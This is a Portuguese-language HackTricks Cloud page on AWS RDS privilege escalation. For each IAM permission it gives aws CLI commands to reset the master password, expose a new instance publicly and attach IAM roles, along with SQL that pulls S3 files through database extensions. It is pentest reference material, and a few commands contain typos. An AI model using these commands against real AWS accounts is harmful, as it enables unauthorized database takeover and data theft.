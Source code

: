 # AWS - Escalação de Privilégios no RDS

<details>

<summary><strong>Apoie o HackTricks e obtenha benefícios!</strong></summary>

* Se você deseja ver sua **empresa anunciada no HackTricks** ou se deseja acessar a **versão mais recente do PEASS ou baixar o HackTricks em PDF**, verifique os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**swag oficial do PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do Telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) no GitHub.

</details>

## RDS - Serviço de Banco de Dados Relacional

Para obter mais informações sobre o RDS, consulte:

{% content-ref url="../aws-services/aws-databases/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-databases/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

Com essa permissão, um invasor pode **modificar a senha do usuário mestre** e o login dentro do banco de dados:
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
Você precisará ser capaz de **acessar o banco de dados** (geralmente eles só são acessíveis de dentro das redes).
{% endhint %}

**Impacto Potencial:** Encontrar informações sensíveis dentro dos bancos de dados.

### rds-db:connect

De acordo com a [**documentação**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html), um usuário com essa permissão pode se conectar à instância do banco de dados.

### Abuso das permissões do RDS Role IAM

#### Postgresql (Aurora)

{% hint style="success" %}
Se ao executar **`SELECT datname FROM pg_database;`** você encontrar um banco de dados chamado **`rdsadmin`**, você saberá que está dentro de um **banco de dados AWS postgresql**.
{% endhint %}

Primeiro, você pode verificar se esse banco de dados foi usado para acessar qualquer outro serviço da AWS. Você pode verificar isso olhando as extensões instaladas:
```sql
SELECT * FROM pg_extension;
```
Se você encontrar algo como **`aws_s3`**, você pode assumir que esse banco de dados tem **algum tipo de acesso ao S3** (existem outras extensões como **`aws_ml`** e **`aws_lambda`**).

Além disso, se você tiver permissões para executar **`aws rds describe-db-clusters`**, você pode verificar se o **cluster possui alguma função IAM anexada** no campo **`AssociatedRoles`**. Se houver, você pode assumir que o banco de dados foi **preparado para acessar outros serviços da AWS**. Com base no **nome da função** (ou se você puder obter as **permissões** da função), você pode **adivinhar** quais acessos extras o banco de dados possui.

Agora, para **ler um arquivo dentro de um bucket**, você precisa saber o caminho completo. Você pode lê-lo com:
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
Se você tivesse **credenciais AWS brutas**, você também poderia usá-las para acessar dados do S3 com:
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
O Postgresql **não precisa alterar nenhuma variável do grupo de parâmetros** para poder acessar o S3.
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
Dentro de um mysql, se você executar a consulta **`SELECT User, Host FROM mysql.user;`** e houver um usuário chamado **`rdsadmin`**, você pode assumir que está dentro de um **banco de dados AWS RDS mysql**.
{% endhint %}

Dentro do mysql, execute **`show variables;`** e se as variáveis como **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`** tiverem valores, você pode assumir que o banco de dados está preparado para acessar dados do S3.

Além disso, se você tiver permissões para executar **`aws rds describe-db-clusters`**, você pode verificar se o cluster tem algum **papel associado**, o que geralmente significa acesso aos serviços da AWS).

Agora, para **ler um arquivo dentro de um bucket**, você precisa saber o caminho completo. Você pode lê-lo com:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

Um invasor com as permissões `rds:AddRoleToDBCluster` e `iam:PassRole` pode **adicionar uma função especificada a uma instância RDS existente**. Isso poderia permitir que o invasor **acesse dados sensíveis** ou modifique os dados dentro da instância.
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**Potencial Impacto**: Acesso a dados sensíveis ou modificações não autorizadas nos dados da instância RDS.\
Observe que alguns bancos de dados exigem configurações adicionais, como o Mysql, que precisa especificar o ARN da função nos grupos de parâmetros também.

### `rds:CreateDBInstance`

Apenas com essa permissão, um invasor poderia criar uma **nova instância dentro de um cluster** que já existe e tem uma **função IAM** anexada. Ele não poderá alterar a senha do usuário principal, mas poderá expor a nova instância do banco de dados para a internet:
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: Testar
{% endhint %}

Um atacante com as permissões `rds:CreateDBInstance` e `iam:PassRole` pode **criar uma nova instância RDS com uma função especificada anexada**. O atacante pode então potencialmente **acessar dados sensíveis** ou modificar os dados dentro da instância.

{% hint style="warning" %}
Alguns requisitos da função/perfil de instância para anexar (de [**aqui**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)):

* O perfil deve existir em sua conta.
* O perfil deve ter uma função IAM que a Amazon EC2 tem permissões para assumir.
* O nome do perfil de instância e o nome da função IAM associada devem começar com o prefixo `AWSRDSCustom`.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**Impacto Potencial**: Acesso a dados sensíveis ou modificações não autorizadas nos dados da instância RDS.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

Um atacante com as permissões `rds:AddRoleToDBInstance` e `iam:PassRole` pode **adicionar uma função especificada a uma instância RDS existente**. Isso poderia permitir que o atacante **acesse dados sensíveis** ou modifique os dados dentro da instância.

{% hint style="warning" %}
A instância do banco de dados deve estar fora de um cluster para isso.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**Impacto Potencial**: Acesso a dados sensíveis ou modificações não autorizadas nos dados da instância RDS.

<details>

<summary><strong>Apoie o HackTricks e obtenha benefícios!</strong></summary>

* Se você deseja ver sua **empresa anunciada no HackTricks** ou se deseja acessar a **versão mais recente do PEASS ou baixar o HackTricks em PDF**, verifique os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**swag oficial do PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) no GitHub.

</details>
